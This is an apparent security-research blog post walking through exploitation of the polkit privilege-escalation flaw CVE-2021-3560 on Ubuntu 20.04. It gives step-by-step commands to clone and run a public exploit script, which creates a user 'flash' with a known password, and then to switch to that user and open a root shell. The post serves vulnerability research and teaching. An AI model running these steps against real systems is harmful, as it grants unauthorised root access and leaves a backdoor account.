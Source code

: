 ```yaml
---
title: Exploiting CVE-2021-3560
tags: [Research, Exploit-Development]
style: outline
color: success
comments: true
description: Local privilege escalation via polkit
---
```


## Introduction

Local privilege escalation via `polkit` (CVE-2021-3560)

***Note:*** The vulnerability was originally discovered by [Kevin Backhouse](https://twitter.com/kevin_backhouse) from [GitHub Security Lab](https://twitter.com/GHSecurityLab). I've just written the code to automate the exploit.

## Testing Environment

The exploit has been tested on `Ubuntu-20.04.1-Desktop` with `policykit-1 0.105-26ubuntu1`

![version](https://i.imgur.com/MBfYklQ.png)

## Steps to Redproduce

Install Open SSH Server & start it

```
sudo apt update
sudo apt install -y openssh-server 
sudo systemctl start ssh
```

Login via ssh

```
ssh localhost
```

![ssh](https://i.imgur.com/xd0v5AY.png)

Download the exploit

```
git clone https://github.com/deathflash1411/CVE-2021-3560 && cd CVE-2021-3560
```

![git clone](https://i.imgur.com/M6A6JDO.png)

Run the exploit

```
python3 CVE-2021-3560.py
```

![exploit](https://i.imgur.com/trlHkzC.png)

A new user `flash` has been created with uid `1001`

Run the command displayed by the exploit

![command](https://i.imgur.com/SsHZ9x1.png)

Login as `flash` with password `flash` via su and spawn a root shell `sudo -i`

```
su - flash
```

![rooted](https://i.imgur.com/qRvp1WI.png)

***Note:*** The command might not work on the first try, run it a few times if you're unable to login.

## References

- [https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)
- [https://www.youtube.com/watch?v=QZhz64yEd0g](https://www.youtube.com/watch?v=QZhz64yEd0g)
- [https://ubuntu.com/security/CVE-2021-3560](https://ubuntu.com/security/CVE-2021-3560)